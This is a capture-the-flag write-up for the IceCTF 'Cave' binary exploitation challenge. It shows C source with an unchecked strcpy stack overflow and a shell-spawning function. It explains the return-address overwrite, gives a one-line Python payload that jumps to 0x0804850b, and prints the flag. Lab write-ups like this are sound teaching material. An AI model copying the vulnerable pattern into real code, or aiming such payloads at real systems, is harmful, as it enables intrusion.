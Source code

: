 # Cave - Binary Exploitation
**Author** : Rakshith G

>You stumbled upon a cave! I've heard some caves hold secrets.. can you find the secrets hidden within its depths?

```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

void shell() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void message(char *input) {
    char buf[16];
    strcpy(buf, input);

    printf("The cave echoes.. %s\n", buf);
}

int main(int argc, char **argv) {
    if (argc > 1){
        message(argv[1]);
    } else {
        printf("Usage: ./shout <message>\n");
    }
    return 0;
}
```

This is a classic buffer overflow problem. By overflowing the buffer, we need to change the return address of the function `message()` to `shell()`. A simple disassembly in gdb reveals the return address of the `message()` and the start address of `shell()` function. Also, we can see that the stack size is 32 bytes. So, the first 28 bytes of the buffer can be filled with anything but the last 4 bytes need to be the address of the `shell()` function. On inspection, we find the address to be `0x0804850b`.

Overwriting the return address in little endian, we get the root shell which we can use to read `flag.txt`.

```python
./shout `python -c "print('x'*28+'\x0b\x85\x04\x08')"`
```

>IceCTF{i_dont_think_caveman_overflowed_buffers}